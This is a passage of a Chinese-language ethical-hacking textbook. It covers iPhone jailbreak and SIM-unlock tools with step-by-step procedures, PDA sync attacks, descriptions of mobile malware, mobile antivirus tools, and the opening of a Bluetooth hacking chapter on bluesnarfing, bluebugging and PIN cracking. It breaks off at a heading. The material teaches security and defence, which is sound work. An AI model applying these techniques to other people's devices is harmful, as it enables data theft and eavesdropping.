虽然 Apple 的 `iPhone` 操作系统是封闭的，但入侵 `iPhone` 并不难。为了入侵 `iPhone`，攻击者只需要一个 `iPhone` 黑客工具包和一个与目标 `iPhone` 在同一网络上的基于 Intel 的 Mac。

越狱（`Jailbreaking`）是一个解锁 `iPhone` 和 `iPod Touch` 设备的过程，以允许安装第三方应用程序。它还可以添加铃声或在 `iPhone` 上更改壁纸。它打开了 `iPhone` 的文件系统，使其可以从计算机访问。许多非恶意用户使用越狱来入侵和定制自己的手机。当然，恶意黑客可以使用该软件安装恶意代码或软件，以帮助访问、隐藏或销毁存储在 `iPhone` 或 `iPod` 上的信息。

用于越狱的工具包括以下：

- `iDemocracy`
- `iActivator`
- `iNdependence`
- `iFuntastic`


图 4-4 此屏幕显示了破解工具 `iDemocracy`。

## 越狱工具：`iDemocracy`

`iDemocracy`（图 4-4）允许 Windows 用户入侵 `iPhone` 并安装第三方 Windows 应用程序。它包含 `Installer.app`、自定义铃声和 SIM 卡解锁功能。它提供对文件系统的完全访问权限，并为第三方应用程序安装 `AppTapp Installer.app`。它还支持解锁任何 SIM 卡（`anySIM.app`）。用户身份模块（SIM 卡是 GSM 手机用于激活、交换、更换和升级手机而无需运营商干预的卡片。

## 越狱工具：`iActivator`

`iActivator`（图 4-5）用于停用和激活 `iPhone` 的通话服务。


图 4-5 此屏幕显示了破解工具 `iActivator`。


图 4-6 此屏幕显示了破解工具 `iIndependence`。

## 越狱工具：`iNdependence`

`iNdependence`（图 4-6）提供了一个用于越狱、激活、SIM 解锁、`SSH` 安装以及在 `iPhone` 上安装铃声/壁纸/应用程序的界面。它允许在 `iPhone` 上安装未经授权的第三方应用程序。

## 越狱工具：`iFuntastic`

`iFuntastic`（图 4-7）是一个 `iPhone` 破解和修改工具。它为几乎所有的 `iPhone` 修改任务提供了图形用户界面。它可以深入 `iPhone` 内部，编辑图像和徽标，替换系统声音，并更改 `iChat` 短信气泡的颜色。它具有完整的文件浏览器功能，可以简单浏览 `iPhone` 内部文件系统，并允许用户编辑 UI 图像。它还包含一个名为 `unshack1eak` 的“永久越狱”工具。

## 使用 `iFuntastic` 进行分步 `iPhone` 破解

在下载 `iPhone` 破解工具包后，请在您的应用程序文件夹中安装 `iFuntastic`。此程序用于入侵 `iPhone`。

接下来，执行以下步骤：

1. 安全重启您的 Mac，确保在此过程中 `iFuntastic` 不会崩溃。
2. 开启您的 `iPhone` 并将其连接到您的 Mac。
3. 一旦 `iTunes` 启动，请立即关闭它。
4. 启动 `iFuntastic`。
5. 按 `iFuntastic` 窗口左侧的 **Prepare** 按钮。
6. 在窗口底部，点击 **Jailbreak** 按钮。
7. 在窗口的下一页，按照列出的六个步骤操作。
8. 图 4-8 显示了成功屏幕。


图 4-7 此屏幕显示了破解工具 `iFuntastic`。


图 4-8 `iFuntastic` 已破解苹果的代码，并授予用户系统级访问权限。

### 越狱工具：`*AppSnapp*`

`AppSnapp`，原名 `AppTapp`（图 4-9），是一个用于越狱和在 `iPhone` 上安装未经批准的第三方应用程序的工具。此越狱工具会将 `Installer.app` 推送到 `iPhone` 或 `iPod Touch`。它包含一个原生应用目录，可以通过 Wi-Fi 或 EDGE 连接直接安装。它在运行特定软件/固件的 `iPhone` 上自动化了该过程，并且无需使用桌面电脑即可完成。它对 `SpringBoard` 进行修补，以在 `iPhone` 上加载第三方应用程序。它激活非 AT&T 的 `iPhone`，并通过修复苹果的 TIFF 漏洞来增强 `iPhone` 的安全性。`AppSnapp` 还启用了 `afc2` 协议，并添加了特殊命令，允许从 `iPhone` 杀死 `SpringBoard Lockdown`。


图 4-9 此屏幕显示了破解工具 AppSnap。

## AppSnap 步骤

1. 在您的 iPhone 或 iPod Touch 上访问 `http://www.jailbreakme.com`，以自动越狱并将 `Installer.app` 放到设备上。
2. 在页面底部，点击 **Install AppSnap** 按钮，您将看到 **Slide to Unlock** 屏幕。
3. 解锁设备后，您将在屏幕上找到 **Installer** 图标；点击 **Installer** 图标，然后点击 **Sources**，安装 Community Sources 软件包。
4. 在系统下，安装 BDS 子系统并打开 SSH。
5. 现在您的 iPhone 已准备好接收和使用第三方二进制文件。

## iPhone 解锁工具：iPhoneSimFree

`iPhoneSimFree` 是一个用于解锁变砖 iPhone 的破解工具。它能够完全恢复/修复所有版本 iPhone 上的软件，并恢复对原始用户数据的访问。可以在不使 iPhone 的无线电和 GSM 功能变砖的情况下更新 `iPhoneSimFree`。它可以修复所有意外锁定的手机，以及通过 `anySIM` 或 `iUnlock` 锁定的手机。它不修补设备固件，并且具有抗恢复和抗更新特性。

## iPhone 解锁工具：anySIM

`anySIM`（图 4-10）是一个基于 GUI 的 iPhone SIM 解锁工具。此应用程序仅适用于 VIRGIN 1.0.2 到 1.1.1 版本的手机。它被描述为全自动，只需将其复制到已越狱的 iPhone 上并从 SpringBoard 界面启动即可。

使用 `anySIM` 解锁 iPhone 的步骤如下：

1. 使用软件/固件 1.1.1 通过 SIM 解锁过程接收第三方应用程序，或使用 `iNdependence` 越狱您的手机。
2. 越狱您的 iPhone 后，使用以下步骤将 `anySIM` 放在上面：
    a. 下载 `anySIM 1.1` 并解压。
    b. 将 `anySIM` 文件移动到应用程序文件夹。
    c. 打开终端（位于 `/Applications/Utilities`）并输入以下内容：`scp -r /Applications/anySIM.app root@<IPADDRESS>~/Applications/` 其中 `IPADDRESS` 是您 iPhone 的 IP 地址。
    d. 重启您的 iPhone。
    e. 运行 `anySIM` 应用程序以解锁您的手机。


图 4-10 此屏幕显示了解锁工具 `anySIM`。

## PDA 攻击

PDA 存在不同的安全问题。其中最大的是设备本身的被盗。克服这一威胁的最佳预防措施是在独立模式下保护设备上的数据，并对设备进行密码保护。

与 PDA 相关的第二大安全风险是病毒。移动代码漏洞，如 `Java` 和 `ActiveX` 利用，也是一种威胁，但只影响能够访问互联网的 PDA。

使用无线服务或无线端口的 PDA 也容易受到无线攻击。保护 PDA 免受无线攻击的最佳解决方案是在用户的 PDA 上安装 VPN 客户端。虽然它保护无线传输会话，但 VPN 也保护正在传输的敏感数据。加密是保护数据和用于连接互联网远程系统的链路的另一种解决方案。

一些特定的攻击在以下部分中描述。

### ActiveSync 攻击

**影响：** Windows Mobile Pocket PC

Windows Mobile Pocket PC 容易受到 `ActiveSync` 攻击。`ActiveSync` 将基于 Windows 的 PDA 和智能手机与桌面电脑同步。`ActiveSync` 通常需要通过底座与桌面 PC 建立物理连接。它要求输入密码，但允许无限次密码尝试。这使得攻击者可以执行暴力破解和字典攻击。

如果用户在桌面上保存了移动密码，攻击者在获得桌面访问权限后，也可以访问 `ActiveSync` 密码以及桌面上的其他任何信息。攻击者可以窃取私人信息或释放恶意代码，例如键盘记录器或间谍软件。

### HotSync 攻击

**影响：** Palm OS

Palm 设备容易受到 `HotSync` 攻击。`HotSync` 在 Palm 设备和桌面 PC 之间同步信息。同步的信息包括电子邮件、联系人、日历项目、任务和笔记。

在 `HotSync` 过程中，各种病毒、木马和其他间谍软件可以传输到移动设备，然后传输到另一个本地桌面设备以及通过网络。Palm OS 在 `HotSync` 同步期间打开 TCP 端口 `14237` 和 `14238` 以及 UDP 端口 `14237`。这意味着攻击者可以打开连接到这些端口的连接，并访问私人信息或释放恶意代码。

## 木马和病毒

截至 2008 年 11 月，已有超过 400 种针对手持设备的病毒在流传。2008 年还见证了移动设备恶意软件创建和分发的大幅增长。这些木马和病毒的风险包括身份盗窃、数据丢失和传输，以及欺诈。

这里列出了一些已知的木马和病毒。更完整和最新的列表可以在商业杀毒产品网站或特定移动操作系统的开发者网站上找到。

### 手机木马：Skulls

`Skulls` 是一种恶意的 SIS 木马。它修改系统应用程序并将其替换为功能失效的版本。一旦安装此木马，它就会将所有应用程序图标替换为带有交叉骨头的骷髅头图片。图标被禁用，并且无法启动它们所代表的应用程序，尽管应用程序仍然已安装。

`Skulls` 禁用了除拨打和接听电话之外的所有电话功能。需要系统应用程序的功能，如短信和彩信消息、网页浏览和相机，将停止工作。

### PDA 病毒：Brador

`Brador` 是一种针对移动个人数字助理设备的病毒。一旦感染设备，它会将自己复制到启动文件夹，并将 PDA 的 IP 地址发送给后门作者。攻击者开始在 TCP 端口上监听命令，然后可以使用 TCP 端口通过后门控制 PDA。它运行在基于 ARM 的 Pocket PC 设备上，包括 Windows Mobile 2003 或更高版本。

### PDA 病毒：WinCE4.Dust

`Dust` 是一种文件感染型病毒，仅感染基于 ARM 的设备。它是为 ARM 处理器手写的一个 1,520 字节长的程序。如图 4-11 所示，当执行受感染的文件时，此病毒将请求感染权限。

一旦病毒获得权限，它会感染当前目录中的所有可执行文件，并在 `.EXE` 标头中添加字符串 `atar` 作为感染符号。它仅感染 4 MB 及更大的文件。图 4-12 显示了受感染文件的十六进制视图。


图 4-11 `Dust` 向用户请求感染权限。


图 4-12 这是受 `WinCE4.Dust` 感染文件的十六进制视图。

### 手机木马：Doomboot.A

**影响：** Symbian OS

`Doomboot.A` 是一种恶意的 SIS 文件木马，它将病毒 `Commwarrior.B` 加载到受感染的设备中。`Doomboot` 安装的 `Commwarrior.B` 会自动启动并传播。被 `Doomboot` 感染的文件

## 图 4-13


此屏幕显示了一台被 `Doomboot.A` 感染的移动设备。请注意，它引用了 Doom 2，标志着其进化。

导致设备在下次重启时故障。它不会自行传播。相反，它依赖于通过消息和恶意网站进行下载。

`Doomboot.A` 已知是 Symbian 版本 Doom 2 的破解版本（图 4-13）。一旦安装，用户不会收到任何社会工程学的消息或在应用菜单中看到其他图标。用户不会知道移动设备实际上已受感染，因为 `Commwarror.B` 在进程列表中隐藏了其进程。

如果 `Commwarror.B` 传播到蓝牙，会导致电池故障，手机将迅速关机。图 4-13 显示了一个受感染文件的十六进制视图。

## iPod 病毒：Podloso

`Podloso` 是一种感染运行 Linux 的 iPod 的病毒。它是一个概念验证程序，展示了实际威胁的潜力，但其本身并非恶意；如果没有用户参与，无法在 iPod 上安装。一旦安装，它会将自己复制到程序的 Demo 文件夹。病毒扫描设备上硬盘中所有可执行的 `.elf` 格式文件并感染它们。如果用户试图打开这些文件之一，将显示以下消息：“你已感染 Oslo，第一种 iPodLinux 病毒。”

## 保护手持设备

### 最佳实践

随着手机和 PDA 在技术上越来越先进，攻击者找到了针对受害者的新方法。利用短信或电子邮件，攻击者可以诱骗用户访问恶意网站，或说服用户在便携式设备上安装恶意代码。

保护手持设备免受攻击的一些方法如下：

- 采取措施保护你的手机和 PDA：


- 牢记物理安全：对设备拥有物理访问权限会使攻击者更容易提取或破坏信息。不要在公共或容易接触到的区域无人看管你的设备。
- 保持软件更新：如果设备厂商发布用于操作你设备的软件的补丁，请尽可能快地安装它们。这些补丁可能被称为固件更新。安装它们可防止攻击者利用已知的问题或漏洞。
- 选择良好的密码：选择允许你使用密码保护信息的设备。不要选择允许你的计算机记住密码的选项，不要选择窃贼轻易猜到的密码，并为不同的程序使用不同的密码。
- 安装并维护防病毒软件和防火墙：像保护你的桌面计算机一样保护笔记本电脑和 PDA 免受病毒侵害。防火墙可以帮助防止外部人员获得未授权的访问。
- 保护你的个人信息，如电子邮件地址和手机号码：
  - 攻击者通常使用浏览网站以查找电子邮件地址的软件。这些地址随后成为攻击和垃圾邮件的目标。通过限制获取你信息的人数，你可以降低成为受害者的风险。
- 不要点击电子邮件或短信中发送的链接：
  - 对未经请求的电子邮件或短信中发送的 URL 保持警惕。虽然链接可能看起来合法，但它们实际上可能会将你引向恶意网站。
- 警惕可下载的软件：
  - 有许多网站提供你可以下载到手机或 PDA 上的游戏和其他软件。这些软件可能包含恶意代码。避免从你不信任的网站下载文件。如果你正从一个看似安全的站点获取文件，请寻找网站证书。如果你确实从网站下载了文件，请考虑将其保存到桌面，并在打开之前手动扫描病毒。
- 评估你的安全设置：
  - 确保你利用了设备提供的安全功能。攻击者可能会利用蓝牙连接访问或下载你设备上的信息。为避免未授权的访问，请在你不使用蓝牙时禁用它。
- 记住或记录你移动手机串的 `IMEI`，这使你在移动设备被盗时更容易使其失效。`国际移动设备识别码（IMEI）` 是一个独特的 15 位或 17 位代码，用于向 GSM 网络标识移动台。使用 `SIM 卡锁` 保护你的移动设备，这是一种由电话制造商内置于 GSM 电话中的功能，允许网络提供商将电话访问限制在特定的国家和网络提供商。

## 保护组织免受移动漏洞侵害

移动技术提高了业务关系的速度和可访问性。员工可以在全球范围内被访问，关系可以轻松超越 40 小时的工作周。由于这种改进的访问权限，经理们必须对其员工及其移动网络给予信任。心怀不满的员工可能会出售或交易移动设备。它们也可能从忠诚、无罪的员工那里丢失或被盗。无论哪种情况，敏感且有价值的数据都会受到妥协，组织必须采取措施恢复数据或修复损害。

丢失移动设备涉及的其他成本包括：
- 员工和 IT 人员在恢复数据上花费的时间
- 设备本身的成本
- 持续身份盗用的可能性
- 对公司网络的访问

组织创建安全策略以保护驻留在移动设备上的机密信息。例如，一项要求禁用无线端口的策略可以最小化敏感数据传输给未授权个人的风险。如果网络面临 PDA 病毒的风险且防病毒软件不可用，请创建一项要求关闭同步功能（`HotSync`）的策略。

为了保护组织免受移动威胁，应采取以下行动：
- 制定一项覆盖全公司的计划，概述移动设备的安全策略和限制。包括以下内容：
  - 密码尝试次数限制
  - 归档和备份程序
  - 清理和重新分配设备的程序
  - 标准化加密方案
  - 报告丢失或被盗设备的程序
- 对智能手机、笔记本电脑、个人数字助理和其他移动设备应用安全软件。
- 在组织内标准化移动设备和应用，以便于更新和端到端加密。
- 防止用户安装可能影响公司网络的未授权应用程序。
- 教育用户了解有关设备的最佳实践、策略和程序。
- 采用技术，使其无法违反公司政策。
- 监控或审计设备使用以确保合规性。

## 防病毒软件

### 防病毒工具：卡巴斯基移动防病毒

保护对象：Symbian, Windows Mobile

卡巴斯基移动防病毒旨在保护运行 Symbian 和 Windows Mobile 操作系统的智能手机免受恶意程序和 unwanted 消息的攻击。它扫描智能手机的内部内存和扩展卡、传入的短信、彩信、电子邮件和可执行文件。它自动更新病毒数据库，并可以按需扫描。

### 防病毒工具：Airscanner

保护对象：Windows Mobile

`Airscanner`（图 4-14 和 4-15）是一种保护移动设备免受有害恶意软件侵害的防病毒软件。其功能包括自动病毒更新和后台扫描，以及自动更新或扫描的精细调度。`Airscanner` 还允许用户查看正在运行的进程列表，并终止任何可能是内存驻留病毒一部分的疑似进程。


图 4-14 `Airscanner` 允许用户扫描病毒。


图 4-15 `Airscanner` 提供进程终止器，允许用户停止内存驻留病毒。

### 防病毒工具：BitDefender 移动安全

保护对象：Symbian, Microsoft Windows Mobile

`BitDefender` 移动安全（图 4-16 和 4-17）是一种移动设备的防病毒工具。用户可以检查内部内存、存储卡或整个设备，并移除发现的恶意文件。扫描引擎可以检测文件、文件夹和归档内的受感染文件。该软件通过 `GPRS` 或桌面机器更新，可以按需扫描或在后台扫描。


图 4-16 此屏幕显示 `BitDefender` 移动安全防病毒工具。


图 4-17 这是 `BitDefender` 的防护屏幕。

### 防病毒工具：SMobile VirusGuard

保护对象：Windows Mobile, Symbian, BlackBerry, Palm

`SMobile VirusGuard`（图 4-18）保护移动设备免受通过电子邮件、短信、彩信、直接下载、蓝牙或红外传输交付的恶意软件侵害。它通过按需和访问时扫描恶意内容来保护移动设备。一旦检测到有害内容，它会通知用户并提供删除或保存数据的选项。

`SMobile VirusGuard` 可以扫描任何通过短信、彩信、蓝牙、`Wi-Fi`、红外或桌面同步接收的文件，或内部内存或存储卡上的文件。


图 4-18 此屏幕显示 `SMobile VirusGuard` 的界面。

### 防病毒工具：Symantec 防病毒

保护对象：Windows Mobile OS

`Symantec` 移动防病毒（图 4-19）保护免受从网络下载、通过电子邮件或 `Wi-Fi` 连接发送、或通过蓝牙或红外端口接收的威胁。`Auto-Protect` 防止传入的威胁被执行，同时记录事件供管理员跟踪安全事件活动。病毒修复、隔离和删除选项使威胁管理和移除变得简单。它包含一个短信监听器，允许管理员远程启动选定的设备操作。它还自动更新病毒定义。

### 防病毒工具：F-Secure 防病毒

保护对象：Palm OS

`F-Secure` Palm OS 防病毒（图 4-20）是一个病毒保护程序，保护 Palm 平台上的所有已知恶意软件。该程序直接在设备上运行。`F-Secure` 可以保护免受通过红外传输或其他数据传输方式接收的病毒侵害。


图 4-19 这是 `Symantec` 杀毒软件界面。


图 4-20 这是 `F-Secure` 界面。

`F-Secure` 会在 `HotSync` 后立即自动扫描设备，但也支持按需扫描。该程序会自动定期更新。

Palm OS 版的 `F-Secure` 防病毒软件由三个主要组件组成：
- PC 客户端用于自动分发反病毒数据库更新。
- 反病毒介质将更新从宿主 PC 传输到掌上设备。
- 扫描应用程序运行在 Palm OS 掌上设备上。

## 防病毒工具：BullGuard 移动防病毒

保护对象：Windows Mobile、Symbian

`BullGuard`（图 4-21）可保护免受针对移动平台的恶意程序侵害。接收或修改的短信、彩信和电子邮件项会自动扫描是否含有恶意程序。它还监控通过蓝牙和其他连接通道到达的可执行文件。它会自动在服务器上更新数据库以获取新的病毒定义。智能手机上的反病毒数据库可按用户设定的时间间隔定期更新。如果使用 `GPRS`，当用户处于漫游状态时会发出警告，以避免不便且昂贵的下载。

## 防病毒工具：McAfee VirusScan Mobile

`VirusScan Mobile`（图 4-22）可防御病毒、蠕虫、拨号器、木马及消耗电池电量的恶意软件。它能自动保护免受来自电子邮件、即时消息以及通过短信、彩信、蓝牙等入口点的互联网下载所带来的威胁。

## 安全工具


除了防病毒软件外，安全工具可以增加攻击者成功入侵移动设备安装恶意软件的难度。本节将介绍一些流行的移动设备安全工具。

## 安全工具：Icon Lock-it XP

`Icon Lock-it XP`为`Windows XP`、`2000`和`NT`桌面提供强大的文件加密和安全保护，可锁定`iPod`、`MP3`播放器、闪存盘等便携设备上的数据。该工具可以锁定和加密文件或文件夹，并管理用户账户以控制文件所有权（图 4-23）。这使得专业人员能够保护在不同机器之间传输的敏感数据。它使用高级加密标准（`AES`）加密，密钥长度最高可达 256 位，以提供强加密。它会检测连接到系统的所有新存储设备，并提示管理员加密、解密或完成软件的自解压。

## BlackBerry 安全工具：签名授权工具

软件开发者可以使用`BlackBerry`签名授权（`BBSA`）工具来保护其为`Black-Berry`设备创建的应用程序内的数据和知识产权。通过使用服务器端软件，管理员选择要保护的`API`和数据存储。


`BBSA`使用非对称公钥/私钥加密来验证签名请求的真实性。管理员可以配置密钥，通过限制应用程序的签名仅限于内部开发者，来允许或限制对特定`API`和数据存储的访问。

可选地，`BlackBerry`签名授权工具可以配置为允许外部开发者请求和接收签名，以访问指定的`API`。这些签名请求可以被追踪、接受或拒绝。`BlackBerry`签名授权工具还可以协助监控和执行与`API`和应用数据相关的许可协议。

`BlackBerry`签名授权工具支持所有版本的`BlackBerry Java`开发环境（`JDE`）以及为基于`Java`的`BlackBerry`设备创建的应用程序。

## PDA 安全工具：TigerSuite PDA

`TigerSuite PDA`包含远程扫描、服务检测和渗透测试模块，以及十六进制编辑器、`IP`子网计算器、主机协作和远程木马扫描器等网络工具和文件工具。`TigerSuite`从主内存或存储卡运行，并兼容无线、`IR`和局域网互联网，和/或网络连接。

该套件包含以下组件：

- 十六进制编辑器
- `IP`子网计算器
- 远程木马扫描器
- 主机协作
- 隐蔽扫描
- 端口 `FIN` 扫描器
- 会话嗅探器
- 服务识别和验证
- `TigerSim`虚拟服务器模拟器
- 带有 `RC` 站点查询的 `WLAN` 扫描

图 4-24 显示了用户可以选择运行哪些工具的菜单。图 4-25、4-26 和 4-27 显示了其中一些工具的屏幕截图。

## 安全工具：Sprite Terminator

`Sprite Terminator`（图 4-28）是一款安全应用程序，它将内部锁定机制直接绑定到设备上。如果手机丢失或被盗，可以使用 `GPS` 软件定位。它还可以远程锁定手机，擦除设备上的数据以及所有外部存储卡，重置设备主密码，或彻底变砖该设备。如果 `SIM` 卡被更换，软件还将通过短信通知机主。


图 4-24 此屏幕显示 `TigerSuite` 中可用的工具。


图 4-25 此屏幕显示 `TS`（`TigerSuite`）木马扫描窗口。


图 4-26 此屏幕显示 `TSPDA Penetator` 窗口。


图 4-27 此屏幕显示 `TSPDA` 端口扫描器窗口。请注意，用户可以启动和停止端口。


图 4-28 这显示了 `Sprite Terminator` 界面。

### 章节总结

- 在移动黑客攻击中，攻击者可以劫持会话、窃取移动设备和信息，或传播恶意软件。
    - 移动恶意软件是一种快速增长且难以检测的威胁。
    - 黑杰克（`Blackjacking`）是指利用 `BlackBerry` 环境绕过周边防御并攻击企业网络中的主机。
    - `iPod` 的大容量存储和通过 `USB` 进行的快速数据传输使其对攻击者具有潜在用途。
    - 越狱是指通过破解 `iPhone` 和 `iPod Touch` 设备来安装第三方应用程序的过程。
    - 当单一可信设备被窃取并遭黑客攻击时，整个企业可能面临风险。
    - 加密、防病毒软件、安全软件和备份都有助于保存可能被黑客泄露的数据。

## 复习题

1. 列出四大主要移动操作系统。描述它们之间的区别。
2. 指出移动设备可能的漏洞和威胁。
3. 指出黑客使用 `iPhone` 黑客工具包对公司造成严重伤害的两种方法。
4. 移动设备的防病毒软件和安全工具之间主要有什么区别？
5. 什么是黑杰克？它与越狱有何不同？
6. 假设某制造商推出了一款新的智能手机。你需要了解哪些技术规格才能理解其可能的漏洞？
7. 列出任何存在漏洞的企业应采取的五项安全措施。
8. `iPhone` 黑客攻击的步骤有哪些？
9. 指出移动设备丢失所涉及的某些成本。
10. 指出黑客利用 `iPod` 实施犯罪的两种方法。

## 动手项目


1. 执行以下步骤：
   - 导航至学生资源中心的第 4 章。
   - 打开 `Take Control of Your iPhone.pdf` 并阅读内容。
2. 执行以下步骤：
   - 导航至学生资源中心的第 4 章。
   - 打开 `iPhone Hardware Unlock.pdf` 并阅读内容。
3. 执行以下步骤：
   - 导航至学生资源中心的第 4 章。
   - 打开 `How to Unlock an iPhone.pdf` 并阅读内容。
4. 执行以下步骤：
   - 导航至学生资源中心的第 4 章。
   - 打开 `The Anatomy of a Hack.pdf` 并阅读其内容。
5. 执行以下步骤：
   - 导航至学生资源中心的第 4 章。
   - 打开 `Mobile Handset Security.pdf` 并阅读其内容。
6. 执行以下步骤：
   - 导航至学生资源中心的第 4 章。
   - 打开 `Mobile Malware Threats and Prevention.pdf` 并阅读其内容。

## 第 5 章

### 蓝牙黑客技术

#### 学习目标

完成本章学习后，您应该能够：

- 理解蓝牙
- 理解蓝牙的安全问题
- 列举针对蓝牙的攻击类型
- 描述各种蓝牙黑客工具
- 描述针对蓝牙的病毒和蠕虫
- 描述各种蓝牙安全工具

#### 关键术语

- `蓝调（Bluebugging）`：一个允许攻击者接管支持蓝牙设备控制的蓝牙安全漏洞
- `蓝堆（Bluedumping）`：一种攻击方法，用于使支持蓝牙的设备倾倒存储的链接密钥，从而让攻击者有机会嗅探密钥交换过程
- `蓝调攻击（Bluejacking）`：使用蓝牙在未经收件人同意的情况下向用户发送信息的行为——类似于电子邮件垃圾邮件
- `蓝绘（Blueprinting）`：一种用于远程访问目标设备详情的攻击方法
- `蓝锤（Bluesmacking）`：一种向受害者设备发送超大信息包的攻击
- `蓝嗅（Bluesnarfing）`：一种获取支持蓝牙设备中敏感数据的方法
- `蓝牙`：一种旨在替代连接便携式或固定设备线缆的短程无线通信技术，同时保持高水平的安全性
- `BTKeylogging（蓝牙按键记录）`：一种攻击方法，使用 `PIN` 破解技术发现支持蓝牙设备的 `PIN`，然后利用该 `PIN` 将设备变成按键记录器
- `BTVoiceBugging（蓝牙语音窃听）`：一种攻击方法，使用 `PIN` 破解技术发现支持蓝牙设备的 `PIN`，然后利用该 `PIN` 记录语音通信
- `HID 协议`：涉及两个单元的协议：设备（直接交互的实体）以及主机（与设备通信并接收用户操作输入数据的主机）
- `主会话密钥 (MSK)`：用于生成工作会话密钥的加密密钥，以便在两个设备之间进行加密的信息交换
- `配对`：两个支持蓝牙的设备同意相互通信并建立连接的过程
- `微微网`：由短程自组网络链接的一组支持蓝牙的设备

#### 蓝牙黑客技术简介

`蓝牙`是一种旨在替代连接便携式或固定设备线缆的短程无线通信技术，同时保持高水平的安全性。它允许手机、计算机和其他设备使用短程无线连接交换信息。两个支持蓝牙的设备同意相互通信并建立连接的过程被称为*配对*。


# 蓝牙概述

## 常见用途

以下是蓝牙的一些常见用途：

- 移动设备和 PC 之间传输数据
- 无需电缆将打印机、键盘或鼠标连接到 PC
- 将一个设备上的照片和铃声发送到另一个设备

蓝牙技术已在全球范围内获得认可。世界上几乎任何地方的任何支持蓝牙的设备都可以连接到附近的其他支持蓝牙设备，并通过称为`微微网`的短程自组网络进行通信。

蓝牙内部的安全性涵盖三个主要领域：

1. 认证
2. 授权
3. 加密

本章重点介绍蓝牙及其相关的安全问题。它讨论了黑客针对支持蓝牙设备进行的不同类型的攻击，以及使蓝牙更加安全的工具。

## 蓝牙安全问题

以下是与蓝牙相关的一些主要安全问题：

- 蓝牙允许使用短 PIN 码生成加密密钥和链接。由于发现短 PIN 码相对容易，其使用可能会破坏蓝牙连接的安全性。
- 加密密钥的长度是可协商的。需要更强的初始化密钥生成过程来提高蓝牙安全性。
- 单元密钥是可重用的，一旦使用即变为公开信息。单元密钥是其中一个设备生成并用作与任何其他设备链接密钥的链接密钥。单元密钥只能在完全信任的环境中安全使用，因为每个配对设备都可以复制持有相同单元密钥的任何其他设备。
- 配对设备的主密钥是共享的。使用更先进的广播密钥方法可以提高蓝牙安全性。
- 如果攻击者之前曾与其他两个用户中的任意一个进行过通信，那么该攻击者可以获得对另外两个用户的未授权访问。这主要是因为由共享信息产生的链接密钥已被泄露。
- 在蓝牙通信中，仅对设备进行认证，而不认证个人用户。这意味着只要设备已通过认证，任何人都可以使用该设备。为了提高安全性，可以采用应用层安全和用户认证。
- 未执行端到端安全性。仅对各个链路进行加密和认证，这使得在中间点解密数据成为可能。
- 蓝牙中的安全服务有限。不存在审计、不可否认性等其他类型的服务。

## 针对蓝牙的攻击

### 蓝调攻击

`蓝调攻击`是指使用蓝牙在未经收件人同意的情况下向用户发送信息的行为——类似于电子邮件垃圾邮件。在任何蓝牙通信之前，发起设备必须提供一个将显示在收件人屏幕上的名称。由于此名称由用户定义，因此可以将其设置为烦人的信息或广告。严格来说，蓝调攻击不会给接收设备造成任何损害。然而，它可能会让受害者感到烦恼和干扰。

### 蓝嗅攻击

`蓝嗅攻击`是一种获取支持蓝牙设备中敏感数据的方法。如果攻击者在目标范围内，他/她可以使用特殊软件获取存储在受害者设备上的数据。

要进行蓝嗅攻击，攻击者会利用蓝牙用于交换信息的协议中的漏洞。该协议称为对象交换 `OBEX`。攻击者与目标建立连接，并对文件名猜测正确或已知的文件执行 GET 操作，例如设备电话簿的 `/pb.vcf` 或设备日历文件的 `telecom/cal.vcs`。

### 蓝调入侵

`蓝调入侵`是一个允许攻击者接管支持蓝牙设备控制的蓝牙安全漏洞。在未授权访问之后，攻击者可以完成以下操作：

- 发起电话呼叫
- 向任何号码发送短信
- 读取手机接收到的短信
- 读取和写入电话簿条目
- 设置呼叫转移
- 建立互联网连接

### 短配对码攻击

短配对码攻击是通过获取两个连接设备共享的链接密钥来实现的。当设备首次配对时，会创建此密钥；之后，它存储在设备的内存中供将来使用。在创建链接密钥期间，第三方窃听者可以获取它。

第三方随时可以创建新的链接密钥。这是通过冒充其中一个设备并向另一个设备发送消息来实现的，该消息声称设备已忘记链接密钥。该消息促使设备再次配对并生成新的链接密钥。然后可以使用此密钥来窃听两个设备之间的通信。

### 中间人攻击

中间人攻击是通过访问目标设备的链接密钥并形成新的通信来执行的；攻击者的设备在双向通信中向每个设备显示自己，仿佛它是另一个设备。在中间人攻击中，攻击者拦截两个设备之间的通信，并向受害者发送未授权或有害的数据。由于受害者不知道他们的通信已被拦截，因此他们没有意识到另一方并未发送他们收到的信息。

攻击可以分两个阶段进行：

- **记录蓝牙会话**：攻击者记录两个目标设备之间发送的所有数据。记录的数据必须包括认证、加密命令以及主会话密钥 `MSK` 的加密通信。`MSK` 是一种用于生成工作会话密钥的加密密钥，以便在两个设备之间进行加密的信息交换。攻击者可以利用受害者使用的访问点来访问 `MSK`。在攻击者记录信息后，他/她将数据发送回受害者设备。利用这些信息，可以在受害者不知情的情况下将受害者设备连接到攻击者的访问点。然后可以在任何网络上对同一受害者重复该攻击。
- **重放蓝牙会话**：最初，认证是在攻击者和受害者的笔记本电脑之间进行的。在第一阶段，攻击者向笔记本电脑发送一个 `RAND` 记录，对于该记录响应为 `RES1`。笔记本电脑向攻击者发送 `RAND3`，该消息随后被转发至移动设备。移动设备将响应作为 `REC3` 发送给攻击者，攻击者再将其转发给笔记本电脑。攻击者使用第一阶段中记录的相同挑战 `EN RAND` 开始蓝牙加密过程。攻击者重放 `EAP` 认证序列，笔记本电脑将其转发至由攻击者控制的 `WLAN` 接入点。在最终阶段，攻击者发送一条由初始阶段中记录的被泄露 `MSK` 组成的消息。受害者误以为这是一个合法网络，向攻击者的 `WLAN` 发送加密数据。

### 在线 PIN 破解攻击

当目标设备使用固定 `PIN` 码时，会发生在线 PIN 破解攻击。攻击者试图通过尝试所有可能的 PIN 组合，直到发现正确的数字，从而获取目标设备的访问权限。攻击者使用以下安全分析工具来破解设备的 PIN 码：

- PIN 破解脚本
- 暴力破解 `BD_ADDR` 扫描脚本

### BTKeylogging 攻击

如果目标设备使用固定 `PIN` 码且攻击者知道其 `BD_ADDR`，攻击者就可以执行 `BTKeylogging` 攻击。攻击者首先使用 PIN 破解攻击来发现目标设备的固定 `PIN` 码。攻击者需要了解目标键盘和目标计算机内部的初始配对序列。随后，攻击者使用协议分析器拦截将键盘用作键击记录器所需的信息。键击记录器拦截输入到设备的所有信息，然后对其进行解密。

### BTVoiceBugBing 攻击

与 `BTKeylogging` 攻击类似，`BTVoiceBugBing` 攻击记录输入到目标设备中的数据。在此情况下，设备是一个头戴式耳机，可用于录音；录音随后可以导出并存储为 `WAV` 格式以供日后使用。

### 蓝图探测

